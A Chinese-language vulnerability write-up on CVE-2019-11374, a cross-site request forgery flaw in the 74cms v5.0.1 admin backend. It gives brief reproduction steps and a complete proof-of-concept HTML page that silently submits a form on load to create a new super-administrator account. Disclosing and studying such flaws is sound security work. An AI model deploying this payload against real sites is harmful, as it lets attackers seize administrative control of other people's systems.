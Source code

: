 <h1>（CVE-2019-11374）74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞</h1>
<h2>一、漏洞简介</h2>
<p>在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。</p>
<h2>二、漏洞影响</h2>
<p>74CMS v5.0.1</p>
<h2>三、复现过程</h2>
<p>首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包</p>
<p>当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户</p>
<pre><code>```html
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0-sec.org.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
```</code></pre>
<h2>参考链接</h2>
<p>https://www.023niu.com/show-62-32-1.html</p>
